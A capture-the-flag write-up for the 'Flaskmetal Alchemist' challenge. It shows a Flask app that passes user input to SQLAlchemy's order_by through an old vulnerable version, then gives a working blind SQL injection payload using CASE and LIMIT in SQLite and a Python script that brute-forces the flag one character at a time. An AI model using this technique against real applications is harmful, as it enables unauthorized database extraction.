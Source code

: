 # Flaskmetal Alchemist

We are given the following code:

```python
from flask import Flask, render_template, request, url_for, redirect
from models import Metal
from database import db_session, init_db
from seed import seed_db
from sqlalchemy import text

app = Flask(__name__)


@app.teardown_appcontext
def shutdown_session(exception=None):
    db_session.remove()


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        search = ""
        order = None
        if "search" in request.form:
            search = request.form["search"]
        if "order" in request.form:
            order = request.form["order"]
        if order is None:
            metals = Metal.query.filter(Metal.name.like("%{}%".format(search)))
        else:
            metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order))
        return render_template("home.html", metals=metals)
    else:
        metals = Metal.query.all()
        return render_template("home.html", metals=metals)


if __name__ == "__main__":
    seed_db()
    app.run(debug=False)
```

Looking into the `requirements.txt` file, we see that a rather old version of SQLAlchemy is used.

```python
click==8.1.2
Flask==2.1.1
importlib-metadata==4.11.3
itsdangerous==2.1.2
Jinja2==3.1.1
MarkupSafe==2.1.1
SQLAlchemy==1.2.17
Werkzeug==2.1.1
zipp==3.8.0
```

This version is in fact vulnerable to [an SQL injection vulnerability](https://github.com/sqlalchemy/sqlalchemy/issues/4481) in `order_by()`.

However, exploiting this is slightly more challenging as the injection point is after the `ORDER BY` clause - at this point, we won't be able to use things like `UNION`, `WHERE`, `OR`, `AND`, etc.

I came across this [article](https://portswigger.net/support/sql-injection-in-the-query-structure) by PortSwigger where the `CASE` clause is used to determine which column the result is sorted by. We'd have to modify the payload into something that SQLite accepts - diving into the SQLite documentation showed us that the following was valid syntax:

```sql
ORDER BY name LIMIT (CASE (SELECT hex(substr(flag,6,1)) FROM flag limit 1 offset 0) WHEN hex('5') THEN  1 ELSE 2 END)
```

This payload will check the `flag` character at index 6. If it matches the character `5`, then the `LIMIT` is set to 1. Otherwise, the `LIMIT` is set to 2.

We could repeat this for each character of the flag:

```python
import requests

alphabet = '0123456789abcdefghijklmnopqrstuvwxyz_{}'
url = 'http://challenge.nahamcon.com:32142'

curr = 'flag{'
i = 6

done = False
while not done:

    found = False

    for char in alphabet:
        print("Trying {}".format(curr + char))
        r = requests.post(url, data={
            'search': '',
            'order': f"name LIMIT (CASE (SELECT hex(substr(flag,{i},1)) FROM flag limit 1 offset 0) WHEN hex('{char}') THEN  1 ELSE 2 END)"
        })
        # print(r.headers['Content-length'])

        if int(r.headers['Content-length']) < 3646:
            found = True
            curr += char
            i += 1
            print("[+] Found {}".format(curr))

    if not found:
        break
```
